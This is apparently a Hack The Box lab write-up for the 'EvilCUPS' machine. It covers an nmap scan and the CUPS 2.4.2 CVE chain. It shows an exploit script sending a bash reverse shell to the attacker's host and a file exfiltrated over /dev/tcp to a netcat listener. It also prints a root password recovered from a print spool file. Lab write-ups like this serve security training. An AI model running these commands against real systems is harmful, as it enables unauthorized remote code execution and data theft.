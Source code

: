 # Nmap
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EvilCUPS]
└─$ nmap -sC -sV -Pn 10.10.11.40 -oN ./nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-25 15:09 UTC
Nmap scan report for 10.10.11.40
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.10 seconds

```

# Page check
![](images/Pasted%20image%2020250725152254.png)
I will explain what is `CUPS` first
```
CUPS stands for Common Unix Printing System. It is a modular, open-source printing system developed by Apple Inc. that allows Unix-like operating systems (including Linux and macOS) to handle printing tasks.
```

# CUPS CVEs
We have get the version of `CUPS 2.4.2`, and also we can find some vulnerable exploits here
![](images/Pasted%20image%2020250725152522.png)

Its CVEs involves:
```
CVE-2024-47176
CVE-2024-47076
CVE-2024-47175
CVE-2024-47177
```
There is a very detailed report of `poc`, if you really want to know the attack chain
```
https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/#Remote-Command-Execution-chain
```

In this place, I would check the existed exploited scripts here
```
https://github.com/IppSec/evil-cups
https://github.com/Alie-N/cups-vulnerability-exploit
```

I would prefer to use `Ippsec`'s script here, it works more stable and easy to control
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EvilCUPS/evil-cups]
└─$ python3 evilcups.py -h                                  
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/EvilCUPS/evil-cups]
└─$ python3 evilcups.py 10.10.14.5 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'
IPP Server Listening on ('10.10.14.5', 12345)
Sending udp packet to 10.10.11.40:631...
Please wait this normally takes 30 seconds...
28 elapsed
target connected, sending payload ...

target connected, sending payload ...
```

Then we can  find the evil printer in the page
![](images/Pasted%20image%2020250725153852.png)
Then just press the `Print test page` button
![](images/Pasted%20image%2020250725153938.png)
Boom! You get the reverse shell as `lp`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EvilCUPS]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.40] 48458
bash: cannot set terminal process group (1184): Inappropriate ioctl for device
bash: no job control in this shell
lp@evilcups:/$ 

```
Then let's upgrade our shell
```
lp@evilcups:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
lp@evilcups:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
lp@evilcups:/$
```

# Shell as root
By simple enumerating the file system
We can check the `/etc/passwd`
```
lp@evilcups:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
htb:x:1000:1000:htb,,,:/home/htb:/bin/bash
avahi:x:102:110:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
saned:x:103:113::/var/lib/saned:/usr/sbin/nologin
polkitd:x:997:997:polkit:/nonexistent:/usr/sbin/nologin
colord:x:104:114:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
```
There is a user `htb`, but I don't find anything about that account

Then I would like to try `sudo -l`, but nothing here.
```
lp@evilcups:~$ sudo -l
bash: sudo: command not found
```

Then let's come back to the default directory of `lp`
```
lp@evilcups:~$ cd ~
lp@evilcups:~$ pwd
/var/spool/cups/tmp
lp@evilcups:~$ cd ..
lp@evilcups:/var/spool/cups$ ls
ls: cannot open directory '.': Permission denied
lp@evilcups:/var/spool/cups$ cd ..
lp@evilcups:/var/spool$ ls -al
total 24
drwxr-xr-x  6 root root 4096 Sep 30  2024 .
drwxr-xr-x 11 root root 4096 Sep 28  2024 ..
drwxr-xr-x  3 root root 4096 Sep 28  2024 cron
drwx--x---  3 root lp   4096 Jul 25 01:46 cups
drwxr-xr-x  2 lp   lp   4096 Sep 30  2024 lpd
lrwxrwxrwx  1 root root    7 Sep 27  2024 mail -> ../mail
drwx------  2 root root 4096 Feb 22  2023 rsyslog

```
By checking the document of `CUPS`, we found :
![](images/Pasted%20image%2020250725154833.png)

And also, we can find a completed job in the page
![](images/Pasted%20image%2020250725154908.png)

We can access to `/var/spool/cups`, but we can't check what there was.So I would like try `d00001-001` this file
```
lp@evilcups:/var/spool/cups$ cat d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
```
Then let's copy it to `/tmp` and download it to our local machine
```
lp@evilcups:/var/spool/cups$ cp d00001-001 /tmp
lp@evilcups:/tmp$ cat d00001-001 > /dev/tcp/10.10.14.5/4444
```
Then use nc to get the file
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EvilCUPS]
└─$ nc -lnvp 4444 > d00001-001
```

Finally we can use `ps2pdf` to check it
![](images/Pasted%20image%2020250725155946.png)
We can use the credit to `su root`

```
root:Br3@k-G!@ss-r00t-evilcups
```

# Description

`EvilCUPS` is all about the recent CUPS exploits that have made a lot of news in September 2024.

